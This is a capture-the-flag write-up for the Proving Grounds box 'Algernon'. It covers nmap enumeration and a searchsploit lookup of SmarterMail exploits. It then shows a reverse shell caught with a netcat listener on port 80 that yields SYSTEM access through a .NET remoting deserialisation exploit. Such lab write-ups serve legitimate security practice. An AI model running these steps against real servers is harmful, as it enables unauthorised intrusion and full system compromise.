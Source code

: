 ```yaml
---
layout: post
title: Proving Grounds - Algernon
date: 2020-10-07 12:16:22 +0100
description: Algernon is an easy Windows box featuring an outdated installation of a mail server. It features an array of open ports though one .NET remoting endpoint is vulnerable to a deserialisation attack.
img: os.jpeg
fig-caption: Algernon
categories: ProvingGrounds
tags: [Easy, Windows, Practice, CVE]
---
```

## Overview
Algernon is an easy Windows box featuring an outdated installation of a mail server. It features an array of open ports though one .NET remoting endpoint is vulnerable to a deserialisation attack.

## Enumeration
The initial scan reveals a fair number of open ports
```
┌──[192.168.49.200]-(calxus㉿calxus)-[~/PG/Algernon]
└─$ sudo nmap -p- -T4 192.168.200.65
Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-01 17:54 BST
Nmap scan report for 192.168.200.65
Host is up (0.092s latency).
Not shown: 65528 filtered ports
PORT      STATE SERVICE
21/tcp    open  ftp
80/tcp    open  http
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
9998/tcp  open  distinct32
17001/tcp open  unknown
```
After some initial enumeration a SmarterMail mail server is found on port 9998. Searching exploitdb reveals a number of vulnerabilities. With the "Remote Code Execution" vulnerability being of particular interest.
```
┌──[192.168.49.200]-(calxus㉿calxus)-[~/PG/Algernon]
└─$ searchsploit smartermail
---------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                |  Path
---------------------------------------------------------------------------------------------- ---------------------------------
SmarterMail 16 - Arbitrary File Upload                                                        | multiple/webapps/48580.py
SmarterMail 7.1.3876 - Directory Traversal                                                    | windows/remote/15048.txt
SmarterMail 7.3/7.4 - Multiple Vulnerabilities                                                | asp/webapps/16955.txt
SmarterMail 8.0 - Multiple Cross-Site Scripting Vulnerabilities                               | asp/webapps/16975.txt
SmarterMail < 7.2.3925 - LDAP Injection                                                       | asp/webapps/15189.txt
SmarterMail < 7.2.3925 - Persistent Cross-Site Scripting                                      | asp/webapps/15185.txt
SmarterMail Build 6985 - Remote Code Execution                                                | windows/remote/49216.py
SmarterMail Enterprise and Standard 11.x - Persistent Cross-Site Scripting                    | asp/webapps/31017.php
smartermail free 9.2 - Persistent Cross-Site Scripting                                        | windows/webapps/20362.py
SmarterTools SmarterMail 4.3 - 'Subject' HTML Injection                                       | php/webapps/31240.txt
SmarterTools SmarterMail 5.0 - HTTP Request Handling Denial of Service                        | windows/dos/31607.py
---------------------------------------------------------------------------------------------- ---------------------------------
```
In the vulnerability we find that it relies on a .NET remote endpoint being available, thankfully this endpoint does seem to be exposed.
```
┌──[192.168.49.200]-(calxus㉿calxus)-[~/PG/Algernon]
└─$ sudo nmap -p17001 -sV 192.168.200.65                        
Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-01 19:20 BST
Nmap scan report for 192.168.200.65
Host is up (0.093s latency).

PORT      STATE SERVICE  VERSION
17001/tcp open  remoting MS .NET Remoting services
```
## Foothold
Having identified the vulnerability during enumeration, getting a shell is as simple as updating the LHOST nad LPORT in the script. Though we must make sure to use a port that is not blocked by the firewall, which in this case port 80 proved to work.
```
┌──[192.168.49.200]-(calxus㉿calxus)-[~/PG/Algernon]
└─$ nc -nlvp 80                                                                                                                                         
listening on [any] 80 ...
connect to [192.168.49.200] from (UNKNOWN) [192.168.200.65] 49892

PS C:\Windows\system32> whoami
nt authority\system
PS C:\Windows\system32>
```
## Privilege Escalation

Privilege escalation is not required as we got a system shell directly from the foothold